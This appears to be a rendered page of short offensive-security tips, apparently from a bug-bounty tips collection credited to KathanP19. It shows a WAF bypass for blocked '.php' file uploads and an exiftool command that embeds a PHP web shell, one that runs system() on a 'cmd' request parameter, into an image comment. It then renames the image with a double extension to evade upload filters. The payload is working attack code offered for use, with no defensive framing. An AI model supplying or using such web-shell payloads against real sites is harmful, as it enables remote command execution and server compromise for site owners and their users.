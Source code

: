 ```markdown
WAF bypass Tips by
@0xInfection
Case: File Upload (.php blocked)

/?file=xx.php <- Blocked
/?file===xx.php <- Bypassed

The file got uploaded successfully.
```

[https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium](https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium)

```markdown
Bypass File Upload Filtering

In image :

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg

mv shell.jpg shell.php.jpg
```

[https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900](https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900)

## Author:

[KathanP19](https://twitter.com/KathanP19)
